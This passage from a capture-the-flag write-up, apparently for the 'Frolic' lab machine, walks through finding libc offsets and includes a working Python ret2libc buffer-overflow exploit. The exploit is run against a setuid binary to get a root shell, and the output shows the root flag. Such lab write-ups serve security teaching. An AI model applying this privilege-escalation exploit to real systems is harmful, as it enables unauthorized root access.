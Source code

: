 ```bash
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

The exit address is `0x0002e9d0`. Then I need to find a string that has `/bin/sh` in `libc.so.6` binary using `strings` command.

```bash
www-data@frolic:/$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
```

It is at `0x0015ba0b` 

The exploit is as below.

```python
import struct

junk = 'A' * 52 # offset
libc = 0xb7e19000

# system, exit and binsh are at the offset of libc address (that's why need to add libc)
system = struct.pack('<I', libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x0015ba0b)

payload = junk + system + exit + binsh
print payload
```

Then I copy the exploit into the server under `/dev/shm`. And execute `rop` binary with an exploit payload as input.

```bash
www-data@frolic:/home/ayush/.binary$ ./rop $(python /dev/shm/exploit.py)
./rop $(python /dev/shm/exploit.py)
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

# cat /root/root.txt
b4bd8b337ad1ca9a46b119e56859c2c2
```

